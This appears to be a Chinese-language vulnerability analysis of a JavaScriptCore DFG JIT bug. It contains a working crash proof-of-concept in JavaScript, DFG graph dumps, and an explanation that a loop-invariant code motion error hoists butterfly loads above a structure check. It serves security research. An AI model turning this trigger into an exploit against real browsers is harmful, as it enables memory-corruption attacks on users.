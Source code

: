 # JavaScriptCore部分poc分析

## Bug

```javascript
function v2(trigger) {
    //强制程序进入JIT
    for (let v7 = 0; v7 < 1000000; v7++) { }
    if (!trigger) {
        /* 
            JavaScript函数初始化会创建arguements对象，其包含
            callee: 指向参数所属的执行函数
            length: 形参数量
            @@interator: 迭代器，用来返回各个形参

        */
        arguments.length = 1;
    }

    for (let v11 = 0; v11 < 10; v11++) {
        // 在for of语句中JIT优化时会将ArrayIterator.next优化为内联函数
        for (const v14 of arguments) {
            const v18 = {a:1337};
            // with 语句会防止程序将v18移到堆栈段，从而迫使将v18写入内存中
            with (v18) { }
        }
    }
}
for (let v23 = 0; v23 < 100; v23++) {
    v2(false);
}
document.write("Triggering crash");
v2(true);
```

## Analysis

### 报错信息

```wiki
Block #8 (Before outer loop)
	...
Block #10 (bc#180): (Outer loop)
104:<!0:-> CheckStructure(Check:Cell:@97, MustGen, [%Cp:Arguments], R:JSCell_structureID, Exits, bc#201, ExitValid)
105:< 2:-> GetButterfly(Cell:@97, Storage|UseAsOther, Other, R:JSObject_butterfly, Exits, bc#201, ExitValid)
Block #12 (bc#464 --> next#<no-hash>:<0x10a8a08c0> bc#43 --> arrayIteratorValueNext#<no-hash>:<0x10a8a0a00> bc#29): (Inner loop header)
378:< 4:-> GetByOffset(Check:Untyped:@105, KnownCell:@97, JS|PureInt|UseAsInt, BoolInt32, id2{length}, 100, R:NamedProperties(2), Exits, bc#34, ExitValid) predicting BoolInt32
Block #17 (bc#487): (Inner loop body)
267:< 8:-> NewObject(JS|UseAsOther, Final, %B8:Object, R:HeapObjectCount, W:HeapObjectCount, Exits, bc#274, ExitValid)
273:<!0:-> PutByOffset(KnownCell:@267, KnownCell:@267, Check:Untyped:@270, MustGen, id7{a}, 0, W:NamedProperties(7), ClobbersExit, bc#278, ExitValid)
274:<!0:-> PutStructure(KnownCell:@267, MustGen, %B8:Object -> %EQ:Object, ID:45419, R:JSObject_butterfly, W:JSCell_indexingType,JSCell_structureID,JSCell_typeInfoFlags,JSCell_typeInfoType, ClobbersExit, bc#
278, ExitInvalid)
	...
JIT优化,数据流图将变为:
Block #8 (Before outer loop)
	...
105:< 2:-> GetButterfly(Cell:@97, Storage|UseAsOther, Other, R:JSObject_butterfly, Exits, bc#201, ExitValid)
378:< 4:-> GetByOffset(Check:Untyped:@105, KnownCell:@97, JS|PureInt|UseAsInt, BoolInt32, id2{length}, 100, R:NamedProperties(2), Exits, bc#34, ExitValid) predicting BoolInt32
Block #10 (bc#180): (Outer loop)
104:<!0:-> CheckStructure(Check:Cell:@97, MustGen, [%Cp:Arguments], R:JSCell_structureID, Exits, bc#201, ExitValid)
Block #12 (bc#464 --> next#<no-hash>:<0x10a8a08c0> bc#43 --> arrayIteratorValueNext#<no-hash>:<0x10a8a0a00> bc#29): (Inner loop header)
Block #17 (bc#487): (Inner loop body)
267:< 8:-> NewObject(JS|UseAsOther, Final, %B8:Object, R:HeapObjectCount, W:HeapObjectCount, Exits, bc#274, ExitValid)
273:<!0:-> PutByOffset(KnownCell:@267, KnownCell:@267, Check:Untyped:@270, MustGen, id7{a}, 0, W:NamedProperties(7), ClobbersExit, bc#278, ExitValid)
274:<!0:-> PutStructure(KnownCell:@267, MustGen, %B8:Object -> %EQ:Object, ID:45419, R:JSObject_butterfly, W:JSCell_indexingType,JSCell_structureID,JSCell_typeInfoFlags,JSCell_typeInfoType, ClobbersExit, bc#278, ExitInvalid)
```

### 分析

用来加载.length的GetButterfly(JS数组的地址，左边地址存储数组的属性，右边地址存储数组的值)、GetByOffset(通过获取偏移量取值)被放在了CheckStructure之前(本该先检查结构体是否存在再进行。)

## Problem

得了解JSC的DFG JIt源码才能更好的了解成因 这其实是个典型的 loop-invariant code motion (LICM)判断错误

## Reference

> [Bug](https://cxsecurity.com/issue/WLB-2019080022)
> [DFG JIT](https://dwfault.github.io/)
> [The Butterfly of JsObject](https://liveoverflow.com/the-butterfly-of-jsobject-browser-0x02/)
> [类似Bug1](https://bugs.chromium.org/p/project-zero/issues/detail?id=1789)
> [类似Bug2](https://bugs.chromium.org/p/project-zero/issues/detail?id=1775)